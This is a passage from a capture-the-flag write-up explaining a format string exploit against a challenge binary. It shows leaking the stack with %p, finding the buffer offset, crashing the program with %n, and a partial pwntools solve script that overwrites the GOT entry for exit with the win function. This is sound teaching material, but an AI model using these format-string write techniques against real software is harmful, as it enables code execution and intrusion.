 Yep, it's definitely treating our input as a format string :)
You might also notice that the byte sequence `0x702520` starts repeating at the 8th "address;" that corresponds to the string `%p` with a trailing space, which as it turns out is exactly what we typed in for our input.
From that, then, we know that our buffer "starts" at the 8th pointer argument to that specific `printf` call.
As it turns out, the people who wrote `printf` also decided that the `%n` format specifier should exist, which writes the number of characters that have been written to the screen to an address argument supplied to `printf`.
We can actually get a pretty easy segfault this way with the challenge binary by trying to write to a null pointer (`(nil)` from above) :)

```shell
$ ./bingbong_adder
I'm bored so I made a program that adds two inputs together.
Just enter your first number here
%n %n
Segmentation fault (core dumped)
```

Obviously segfaults aren't super useful, but we know from a couple paragraphs back that our buffer starts at the 8th argument to `printf`, so if we craft our input in a specific way we could actually write to arbitrary addresses by "including" them in our buffer.
`printf` also allows you to specify an argument offset for any format specifier, so instead of spamming `%p`s to get to our buffer you can just write `%8$p` instead:

```shell
$ ./bingbong_adder
I'm bored so I made a program that adds two inputs together.
Just enter your first number here
AAAAAAAA %8$p
Here's your input: AAAAAAAA 0x4141414141414141
```

While we could figure out the format string we'd need to overwrite specific addresses manually, luckily for us pwntools has the [`fmtstr`](https://docs.pwntools.com/en/stable/fmtstr.html) module which automates that process for us.
We just have to provide it a set of addresses and corresponding values to overwrite them with, and pwntools handles the format string creation process.

In my [solve script](add_flag.py), I ended up overwriting the GOT entry for the `exit` function with the `win` function address, since the former is called at the end of `main` anyways.
Here's my actual solve script:

```python
from pwn import *

# found by spamming As and then %p to determing our buffer offset from printf's perspective
offset = 8

if __name__ == "__main__":
    context.log_level = "error"

    binary = ELF("./bingbong_adder")
    context.binary = binary # handles architecture/endianness/???

    # io = process("./bingbong_adder")
    io = remote("chal.ctf-league.osusec.org", 1319)

    # overwrite the GOT entry for exit() with the address of the win() function
    # (exit is called at the end of main, so we just redirect it to win >:))
    got_overwrite = {
        binary.got["exit"]: binary.symbols["win"]
    }

    payload = fmtstr_payload(offset, got_overwrite)
    print("Payload:", payload)
```
